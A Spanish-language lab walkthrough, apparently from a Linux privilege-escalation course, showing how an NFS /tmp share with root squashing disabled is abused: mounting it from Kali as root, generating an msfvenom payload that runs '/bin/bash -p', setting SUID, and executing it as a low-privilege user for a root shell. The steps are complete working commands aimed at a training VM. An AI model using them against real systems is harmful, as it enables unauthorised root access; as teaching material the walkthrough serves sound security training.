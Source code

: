 # NFS

Los archivos creados a través de NFS heredan el ID del usuario remoto. Si el usuario es root y se ha habilitado la supresión de root, el ID se establecerá en el usuario "nobody".

Verifica la configuración del recurso compartido NFS en la VM de Debian:

```bash
cat /etc/exports
```

Observa que el recurso compartido /tmp tiene la supresión de root deshabilitada.

En tu máquina Kali, cambia al usuario root si aún no estás ejecutando como root:

```bash
sudo su
```

Usando el usuario root de Kali, crea un punto de montaje en tu máquina Kali y monta el recurso compartido /tmp (actualiza la IP según corresponda):

```bash
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

Todavía usando el usuario root de Kali, genera un payload usando msfvenom y guárdalo en el recurso compartido montado (este payload simplemente llama a /bin/bash):

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Todavía usando el usuario root de Kali, haz el archivo ejecutable y establece el permiso SUID:

```bash
chmod +xs /tmp/nfs/shell.elf
```

De regreso en la VM de Debian, como el usuario de bajo privilegio, ejecuta el archivo para obtener una shell de root:

```bash
/tmp/shell.elf
```
